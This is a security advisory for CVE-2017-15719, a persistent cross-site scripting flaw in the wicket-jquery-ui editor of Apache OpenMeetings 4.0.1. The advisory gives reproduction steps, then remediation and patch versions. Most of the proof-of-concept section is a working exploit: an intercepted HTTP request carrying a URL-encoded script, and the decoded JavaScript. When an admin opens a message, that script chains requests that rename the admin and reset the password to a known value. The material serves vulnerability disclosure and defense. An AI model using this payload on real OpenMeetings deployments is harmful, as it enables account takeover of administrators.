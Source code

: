 ```yaml
---

layout: post
title: CVE-2017-15719 Wicket jQuery UI XSS in WYSIWYG editor
tagline: Apache OpenMeetings 4.0.1 Vulnerability Report
tag: advisory
---
```


### Description:

It was identified that one of the components of Apache OpenMeetings v 4.0.1 is vulnerable to [Persistent Cross Site Scripting](https%3A%2F%2Fwww.owasp.org%2Findex.php%2FCross-site_Scripting_%28XSS%29) vulnerability. An attacker can exploit these vulnerabilities to hijack admin user's browser along with the data stored in it.  

### Affected Component: wicket-jquery-ui

### Affected Versions: <= 6.28.0, <= 7.9.1, <= 8.0.0-M8

### Test Configuration:

Following is needed in order to reproduce this issue:

* Access to two valid user accounts. (`admin` and `user1` in this example)
* A web browser. (Mozilla Firefox in this example)
* An HTTP intercepting proxy (Burp Suite Professional in this example)


### Proof of Concept:

1. Login to `user1` account and navigate to mailbox by clicking on `Contacts and messages`  button as shown.

   ![Mailbox](/assets/images/apache_openmeetings/1.png)

2. Create a new email to `admin` user with following contents and click on send.

   ![](/assets/images/apache_openmeetings/2.png)

3. Intercept the request and replace the `message:textarea` parameter value as shown and forward the request.  

   ```markdown
   POST /openmeetings/?1-1.0-main~container-main-newMessageDialog HTTP/1.1
   Host: localhost:5080
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:48.0) Gecko/20100101 Firefox/48.0
   Accept: application/xml, text/xml, */*; q=0.01
   Accept-Language: en-US,en;q=0.5
   Accept-Encoding: gzip, deflate
   Content-Type: application/x-www-form-urlencoded; charset=UTF-8
   Wicket-Ajax: true
   Wicket-Ajax-BaseURL: .
   Wicket-FocusedElementId: btnad
   X-Requested-With: XMLHttpRequest
   Referer: http://localhost:5080/openmeetings/
   Content-Length: 5854
   Cookie: wicketDebugBarState=collapsed; JSESSIONID=EBF252840768E072D61FB49991CEC0B6
   Connection: close

   to=1&subject=Hello&message%3Atextarea=`This%20mail%20was%20sent%20accidently%20to%20you%2C%20please%20ignore%20this.%0A%3Cscript%3E%0A%20%20%20%20%20%20function%20x%28%29%0A%20%20%20%20%20%20%7B%0A%09%09var%20u%3B%0A%09%09var%20uid%3B%0A%09%09var%20data%20%3D%20%22%22%3B%0A%09%09%09for%20%28var%20i%3D0%3B%20i%20%3C%20document.scripts.length%3B%20i%20%2b%2b%29%7B%0A%09%09%09%09data%20%2b%3D%20document.scripts%5Bi%5D.text%3B%0A%09%09%09%7D%0A%09%09%09var%20m%20%3D%20data.match%28%2f%5E.%2a%3F%5C%28%5C%7B%5C%22u%5C%22%5C%3A%5C%22%5C.%5C%2f%28.%2a%3F%29%5C%22%5C%7D%5C%29%5C%3B%5C%3B%24%2fim%29%3B%0A%09%09%09u%20%3D%20m%5B1%5D%3B%0A%09%09%09%0A%09%09%09for%20%28var%20i%3D0%3Bi%20%3C%20document.getElementsByClassName%28%22sub%20ui-menu-item%22%29.length%3Bi%2b%2b%29%7B%0A%09%09%09%09if%20%28document.getElementsByClassName%28%22sub%20ui-menu-item%22%29%5Bi%5D.title%20%3D%3D%20%22Manage%20users%20and%20rights%22%29%7B%0A%09%09%09%09%09uid%20%3D%20document.getElementsByClassName%28%22sub%20ui-menu-item%22%29%5Bi%5D.id%3B%0A%09%09%09%09%09break%3B%0A%09%09%09%09%7D%0A%09%09%09%7D%0A%09%09%09y1%28u%2Cuid%29%3B%0A%09%09%7D%0A%09%09%0A%09function%20y1%28u%2Cuid%29%7B%0A%09%09var%20ul%20%3D%20%22http%3A%2f%2flocalhost%3A5080%2fopenmeetings%2f%22%2bu%2b%22main%7Econtainer-main-topControls-menu-menu%26hash%3D%22%2buid%2b%22%26_%3D%22%3B%0A%09%09var%20b%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%09%09b.open%28%22GET%22%2Cul%2Ctrue%29%3B%0A%09%09b.setRequestHeader%28%22Accept%22%2C%20%22application%5C%2fxml%2C%20text%5C%2fxml%2C%20%2a%5C%2f%2a%3B%20q%3D0.01%22%29%3B%0A%20%20%20%20%20%20%20%20b.setRequestHeader%28%22Accept-Language%22%2C%20%22en-US%2Cen%3Bq%3D0.5%22%29%3B%0A%20%20%20%20%20%20%20%20b.setRequestHeader%28%22Wicket-Ajax%22%2C%22true%22%29%3B%0A%09%09b.setRequestHeader%28%22Wicket-Ajax-BaseURL%22%2C%22.%22%29%3B%0A%09%09b.setRequestHeader%28%22X-Requested-With%22%2C%22XMLHttpRequest%22%29%3B%0A%09%09b.responseType%20%3D%20%22document%22%3B%0A%09%09b.overrideMimeType%28%27text%2fxml%27%29%3B%0A%09%09b.onload%20%3D%20function%28%29%7B%0A%09%09%09y2%28u%29%3B%0A%09%09%7D%0A%09%09b.send%28%29%3B%09%0A%09%7D%0A%09%0A%09function%20y2%28u%29%7B%0A%09%09var%20ul%20%3D%20%22http%3A%5C%2f%5C%2flocalhost%3A5080%5C%2fopenmeetings%5C%2f%22%2bu%2b%22main%7Econtainer-main-contents-child-listContainer-userList-1%26_%3D1513604035452%22%3B%0A%09%09var%20xhr%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%09%09xhr.open%28%22GET%22%2Cul%2Ctrue%29%3B%0A%09%09xhr.setRequestHeader%28%22Accept%22%2C%20%22application%5C%2fxml%2C%20text%5C%2fxml%2C%20%2a%5C%2f%2a%3B%20q%3D0.01%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Accept-Language%22%2C%20%22en-US%2Cen%3Bq%3D0.5%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Wicket-Ajax%22%2C%22true%22%29%3B%0A%09%09xhr.setRequestHeader%28%22Wicket-Ajax-BaseURL%22%2C%22.%22%29%3B%0A%09%09xhr.setRequestHeader%28%22X-Requested-With%22%2C%22XMLHttpRequest%22%29%3B%0A%09%09xhr.overrideMimeType%28%27text%2fxml%27%29%3B%0A%09%09xhr.onload%20%3D%20function%28%29%20%7B%0A%09%09%09var%20t%20%3D%20this.responseXML.documentElement.getElementsByTagName%28%27component%27%29%5B0%5D.textContent%3B%0A%09%09%09var%20d%20%3D%20new%20DOMParser%28%29.parseFromString%28t%2C%22text%2fxml%22%29%3B%0A%09%09%09var%20r%20%3D%20d.getElementsByName%28%27comunity%3Acommunity_settings%27%29%5B1%5D.getAttribute%28%27value%27%29%3B%0A%09%09%09z%28u%2Cr%29%3B%0A%09%09%7D%0A%09%09xhr.responseType%20%3D%20%22document%22%3B%0A%09%09xhr.send%28%29%3B%0A%09%7D%0A%09%0A%09function%20z%28u%2Cr%29%0A%20%20%20%20%20%20%7B%0A%20%20%20%20%20%20%20%20var%20xhr%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%20%20%20%20%20%20%20%20xhr.open%28%22POST%22%2C%20%22http%3A%5C%2f%5C%2flocalhost%3A5080%5C%2fopenmeetings%5C%2f%22%2bu%2b%22main%7Econtainer-main-contents-child-form-buttons-ajax%7Esave%7Ebutton%22%2C%20true%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Accept%22%2C%20%22application%5C%2fxml%2C%20text%5C%2fxml%2C%20%2a%5C%2f%2a%3B%20q%3D0.01%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Accept-Language%22%2C%20%22en-US%2Cen%3Bq%3D0.5%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Content-Type%22%2C%20%22application%5C%2fx-www-form-urlencoded%3B%20charset%3DUTF-8%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Wicket-Ajax%22%2C%22true%22%29%3B%0A%09%09xhr.setRequestHeader%28%22Wicket-Ajax-BaseURL%22%2C%22.%22%29%3B%0A%09%09xhr.setRequestHeader%28%22X-Requested-With%22%2C%22XMLHttpRequest%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.withCredentials%20%3D%20true%3B%0A%20%20%20%20%20%20%20%20var%20body%20%3D%20%22login%3Dadmin%26password%3DPass@123%26general%253Aaddress.email%3Dadmin%2540localhost.com%26general%253Asalutation%3Dmr%26general%253Afirstname%3Dadminhijacked%26general%253Alastname%3Dadminhijacked%26general%253AtimeZoneId%3D281%26general%253AlanguageId%3D1%26general%253Aaddress.phone%3D%26general%253Aage%3D27%252F11%252F17%26general%253Aaddress.street%3D%26general%253Aaddress.additionalname%3D%26general%253Aaddress.zip%3D%26general%253Aaddress.town%3D%26general%253Aaddress.country%3DIN%26general%253Aaddress.comment%3D%26general%253AgroupUsers%3D1%26type%3D0%26rights%3DRoom%26rights%3DSoap%26rights%3DDashboard%26rights%3DAdmin%26rights%3DLogin%26comunity%253Acommunity_settings%3D%22%2br%2b%22%26comunity%253AuserOffers%3D%26comunity%253AuserSearchs%3D%26buttons%253Aajax-save-button%3D1%22%3B%0A%20%20%20%20%20%20%20%20var%20aBody%20%3D%20new%20Uint8Array%28body.length%29%3B%0A%20%20%20%20%20%20%20%20for%20%28var%20i%20%3D%200%3B%20i%20%3C%20aBody.length%3B%20i%2b%2b%29%0A%20%20%20%20%20%20%20%20%20%20aBody%5Bi%5D%20%3D%20body.charCodeAt%28i%29%3B%20%0A%20%20%20%20%20%20%20%20xhr.send%28new%20Blob%28%5BaBody%5D%29%29%3B%0A%20%20%20%20%20%20%7D%09%09%0A%20%20%20%20%20%20x%28%29%3B%0A%3C%2fscript%3E`
   ```

4. URL encoded payload shown in above request when executed will send a sequence of requests to change `admin` user's `firstname` ,`lastname` and `password`.

   *Note: For working of the exploit code shown below, **hostname** needs to updated accordingly.*

   {% highlight html %}
// Fetch user uid values from current DOM

<script>
function x()
     {
    var u;
    var uid;
    var data = "";
      for (var i=0; i < document.scripts.length; i ++){
        data += document.scripts[i].text;
      }
      var m = data.match(/^.*?\(\{\"u\"\:\"\.\/(.*?)\"\}\)\;\;$/im);
      u = m[1];

      for (var i=0;i < document.getElementsByClassName("sub ui-menu-item").length;i++){
        if (document.getElementsByClassName("sub ui-menu-item")[i].title == "Manage users and rights"){
          uid = document.getElementsByClassName("sub ui-menu-item")[i].id;
          break;
        }
      }
      y1(u,uid);
    }

// mandatory request to fulfill entire requests chain

function y1(u,uid){
  var ul = "http://localhost:5080/openmeetings/"+u+"main~container-main-topControls-menu-menu&hash="+uid+"&_=";
  var b = new XMLHttpRequest();
  b.open("GET",ul,true);
  b.setRequestHeader("Accept", "application\/xml, text\/xml, *\/*; q=0.01");
     b.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
     b.setRequestHeader("Wicket-Ajax","true");
  b.setRequestHeader("Wicket-Ajax-BaseURL",".");
  b.setRequestHeader("X-Requested-With","XMLHttpRequest");
  b.responseType = "document";
  b.overrideMimeType('text/xml');
  b.onload = function(){
    y2(u);
  }
  b.send();
}

// Get community_settings value

  function y2(u){
    var ul = "http:\/\/localhost:5080\/openmeetings\/"+u+"main~container-main-contents-child-listContainer-userList-1&_=1513604035452";
    var xhr = new XMLHttpRequest();
    xhr.open("GET",ul,true);
    xhr.setRequestHeader("Accept", "application\/xml, text\/xml, *\/*; q=0.01");
       xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
       xhr.setRequestHeader("Wicket-Ajax","true");
    xhr.setRequestHeader("Wicket-Ajax-BaseURL",".");
    xhr.setRequestHeader("X-Requested-With","XMLHttpRequest");
    xhr.overrideMimeType('text/xml');
    xhr.onload = function() {
      var t = this.responseXML.documentElement.getElementsByTagName('component')[0].textContent;
      var d = new DOMParser().parseFromString(t,"text/xml");
      var r = d.getElementsByName('comunity:community_settings')[1].getAttribute('value');
      z(u,r);
    }
    xhr.responseType = "document";
    xhr.send();
  }

// Final password change request

  function z(u,r)
     {
       var xhr = new XMLHttpRequest();
       xhr.open("POST", "http:\/\/localhost:5080\/openmeetings\/"+u+"main~container-main-contents-child-form-buttons-ajax~save~button", true);
       xhr.setRequestHeader("Accept", "application\/xml, text\/xml, *\/*; q=0.01");
       xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
       xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded; charset=UTF-8");
       xhr.setRequestHeader("Wicket-Ajax","true");
    xhr.setRequestHeader("Wicket-Ajax-BaseURL",".");
    xhr.setRequestHeader("X-Requested-With","XMLHttpRequest");
       xhr.withCredentials = true;
       var body = "login=admin&password=Pass@123&general%3Aaddress.email=admin%40localhost.com&general%3Asalutation=mr&general%3Afirstname=adminhijacked&general%3Alastname=adminhijacked&general%3AtimeZoneId=281&general%3AlanguageId=1&general%3Aaddress.phone=&general%3Aage=27%2F11%2F17&general%3Aaddress.street=&general%3Aaddress.additionalname=&general%3Aaddress.zip=&general%3Aaddress.town=&general%3Aaddress.country=IN&general%3Aaddress.comment=&general%3AgroupUsers=1&type=0&rights=Room&rights=Soap&rights=Dashboard&rights=Admin&rights=Login&comunity%3Acommunity_settings="+r+"&comunity%3AuserOffers=&comunity%3AuserSearchs=&buttons%3Aajax-save-button=1";
       var aBody = new Uint8Array(body.length);
       for (var i = 0; i < aBody.length; i++)
         aBody[i] = body.charCodeAt(i);
       xhr.send(new Blob([aBody]));
     }    
     x();
</script>
{% endhighlight %}

   ​

5. Login to `admin` user account in a private browser window and navigate to mailbox by following `step1`.

6. Open the email sent by `user1` and observe that the application sends a sequence of XHR requests while executing our *XSS* payload.

  ![](/assets/images/apache_openmeetings/4.png)

  ![](/assets/images/apache_openmeetings/6.png)

7. Navigate to `Profile` settings of `admin` user and observe that first and last name has changed successfully as defined in the exploit code shown in `Step 4`.

   ![](/assets/images/apache_openmeetings/5.png)

8. We can now login to admin account with password `Pass@123` as defined in exploit.

   ![](/assets/images/apache_openmeetings/7.png)

   ![](/assets/images/apache_openmeetings/8.png)


### Remediation:

It is recommended to validate user input and implement  [Context Specific Filtering](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet) in application response.


### Vendor Patches:

This issue was fixed in **wicket-jquery-ui** versions **6.28.1**, **7.9.2** and **8.0.0-M8.1**. All Users are recommended to upgrade to [Apache OpenMeetings 4.0.2](https://openmeetings.apache.org/downloads.html).
